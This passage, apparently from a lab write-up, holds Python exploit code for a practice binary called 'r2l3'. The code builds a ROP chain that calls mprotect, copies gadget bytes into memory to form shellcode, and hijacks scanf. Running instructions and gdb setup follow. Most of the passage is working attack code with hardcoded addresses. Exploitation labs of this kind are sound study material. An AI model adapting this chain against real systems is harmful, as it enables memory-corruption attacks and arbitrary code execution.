 ```python
    s += bncpy(dest, 0x7ffff7e9652d, 3)
    dest += 3
    s += bncpy(dest, 0x7ffff7deaa10, 3)
    dest += 3
    #                     ff d0                  call   rax
    s += bncpy(dest, 0x7ffff7e2c033, 2)
    dest += 2
    #                     8a 0c 25 00 15 40 00   mov    cl,BYTE PTR ds:0x401500
    s += bncpy(dest, 0x7ffff7e9d914, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7e29e2d, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7ee0fc1, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7e29c4a, 1)
    dest += 1
    #                     b8 87 11 40 00         mov    eax,0x401187
    s += bncpy(dest, 0x7ffff7e6bac8, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7e628fc, 2)
    dest += 2
    s += bncpy(dest, 0x7ffff7e29c4a, 1)
    dest += 1
    #                    ff e0                   jmp    rax
    s += bncpy(dest, 0x7ffff7e33462, 2)

    return s


# mprotect()
smpro = raxto7 + raxpl3 + poprdi + addr + poprsi + length + poprdx + prot + syscall
# hijack scanf (e9 9b 02 00 00 = jmpq 0x401300)
hijack = bncpy(0x401060, 0x7ffff7f43331, 5)

# start of chat() + net() inf loop in main
gotostart = struct.pack("<Q", 0x401221)

print pad + smpro + hijack + writeEcho() + writeCode() + gotostart
```

### Running the exploit

Send the exploit data to the program:

```bash
$ python r2l3_exploit.py > /tmp/network
```

Start and configure gdb:

```bash
$ gdb r2l3
(gdb) display/i $rip
(gdb) display/25i 0x401300
(gdb) display/s 0x401380
(gdb) display/s 0x401400
(gdb) display/s 0x401500
(gdb)
```
